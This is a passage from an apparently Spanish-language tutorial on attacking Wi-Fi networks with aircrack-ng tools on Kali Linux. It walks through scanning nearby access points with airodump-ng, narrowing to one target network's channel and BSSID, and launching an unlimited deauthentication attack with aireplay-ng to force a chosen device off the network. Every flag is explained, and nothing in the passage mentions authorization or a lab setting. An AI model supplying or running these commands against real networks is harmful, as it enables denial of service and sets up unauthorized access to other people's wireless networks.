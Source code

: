 ### **PASO 3: Escaneo de Redes Disponibles**
```sh
sudo su
airodump-ng -a wlan0
```
**Desglose:**

- `sudo su` - Cambiar a usuario root
- `airodump-ng` - Herramienta de captura de paquetes
- `-a` - Mostrar solo puntos de acceso activos
- `wlan0` - Interfaz en modo monitor

**Información obtenida:**

- BSSID (dirección MAC del router)
- Canal de operación
- Nombre de la red (ESSID)
- Dispositivos conectados

### **PASO 4: Monitoreo Específico de Red Objetivo**
```sh
airodump-ng -c 44 --bssid CC:ED:DC:4F:4A:8F wlan0
```
**Parámetros explicados:**

- `-c 44` - Canal específico (en este caso canal 44)
- `--bssid CC:ED:DC:4F:4A:8F` - BSSID de la red objetivo
- `wlan0` - Interfaz de monitoreo

**Resultado:** Lista de dispositivos conectados a esa red específica

### **PASO 5: Ataque de Desautenticación**
```sh
aireplay-ng --deauth 0 -a CC:ED:DC:4F:4A:8F -c [MAC_DISPOSITIVO] wlan0
```
**Parámetros detallados:**

- `--deauth 0` - Número de paquetes de desautenticación (0 = infinito)
- `-a CC:ED:DC:4F:4A:8F` - BSSID del punto de acceso
- `-c [MAC_DISPOSITIVO]` - MAC del dispositivo específico a desconectar
- `wlan0` - Interfaz utilizada para el ataque

---

## **🔄 PROCESO COMPLETO PASO A PASO**

### **Fase 1: Preparación del Sistema**

1. **Iniciar Kali Linux**
2. **Abrir terminal**
3. **Verificar interfaces:** `iwconfig`
4. **Identificar tarjeta WiFi** (ej: wlan0)

### **Fase 2: Configuración de Modo Monitor**
